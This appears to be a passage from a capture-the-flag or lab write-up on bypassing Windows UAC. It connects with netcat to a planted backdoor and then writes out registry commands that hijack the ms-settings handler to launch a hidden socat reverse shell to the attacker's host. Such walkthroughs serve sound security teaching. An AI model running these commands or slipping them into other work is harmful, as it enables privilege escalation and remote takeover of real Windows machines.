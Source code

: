 <figure><img src="../../.gitbook/assets/image (12) (9).png" alt=""><figcaption></figcaption></figure>

#### Putting it all together

One of our agents has planted a backdoor on the target server for your convenience. He managed to create an account within the Administrators group, but UAC is preventing the execution of any privileged tasks. To retrieve the flag, he needs you to bypass UAC and get a fully functional high IL shell.

To connect to the backdoor, you can use the following command:

**Kali**

```
nc $VICTIM 9999
```

Once connected, we check if our user is part of the Administrators group and that it is running with a medium integrity token:

**Victim(cmd)**

```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:$KALI:4444 EXEC:cmd.exe,pipes"

reg add %REG_KEY% /v "DelegateExecute" /d "" /f

reg add %REG_KEY% /d %CMD% /f
```

<figure><img src="../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>
